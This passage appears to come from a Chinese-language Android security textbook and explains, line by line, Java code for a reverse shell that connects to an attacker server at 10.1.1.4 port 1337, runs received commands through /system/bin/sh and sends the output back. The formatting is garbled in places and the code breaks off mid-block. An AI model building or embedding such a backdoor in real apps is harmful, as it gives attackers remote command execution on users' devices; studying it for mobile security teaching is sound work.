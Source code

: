                  }

               } catch (Exception e) {
                 e.printStackTrace();
                 }

             }
          };
          thread.start();

        }
        ```

    以下代码实现了所有这些功能：

让我们逐行理解前面的代码：

*   首先，我们创建了一个线程，以避免在主线程上执行网络任务。当应用在主线程上执行网络任务时，可能会导致应用崩溃。自 Android 4.4 以来，这些操作将引发运行时异常。
*   然后我们声明了攻击者服务器的 IP 地址和端口号。在本例中，攻击者服务器的 IP 地址为`10.1.1.4`，端口号为`1337`。您可以根据需要更改这两个选项。
*   然后我们实例化了`PrintWriter`**和`BufferedReader`**对象。`out`是为向攻击者发送命令输出而创建的对象。目标`in`是接收攻击者的命令。****
*****   然后我们编写了下面的代码，其中我们使用`InputStreamReader`**对象读取字符串输入。用外行的话说，这些是攻击者通过远程 shell 发送的命令：

    ```
    String command = in.readLine();
    ```** ***   在上述行中接收的输入命令应由应用执行。这是使用以下代码完成的，其中 Java 的`exec()`方法用于运行系统命令。正如您在下面的代码中所看到的，`command`是一个字符串变量，在上一步中，从攻击者接收到的命令存储在该变量中。它由安卓设备上的`/system/bin/sh`二进制文件执行：

    ```
    Process process = Runtime.getRuntime().exec(new String[]{"/system/bin/sh", "-c", command});
    ```

    *   以下几行将获取上一步的输出，我们在该步骤中执行系统命令。该输出作为输入，该输入放在字符串缓冲区中。因此，在运行以下代码后，执行的命令输出将存储在名为`output`：

    ```
         BufferedReader reader = new BufferedReader(

           new InputStreamReader(process.getInputStream()));
             int read;
             char[] buffer = new char[4096];
             StringBuffer output = new StringBuffer();
             while ((read = reader.read(buffer)) > 0) {
               output.append(buffer, 0, read);
             }
             reader.close();
    ```

    的变量中*   然后，以下行将输出转换为字符串格式的值：

    ```
    String commandoutput = output.toString();
    ```

    *   `process.waitFor()`；是等待命令完成。*   最后，我们正在编写`if`条件来检查`commandoutput`是否有`null`值。如果`commandoutput`变量不是`null`，则会调用一个名为`sendOutput()`的方法，其中会写入将输出发送给攻击者的实现。如下所示：

    ```
      if (commandoutput != null) {
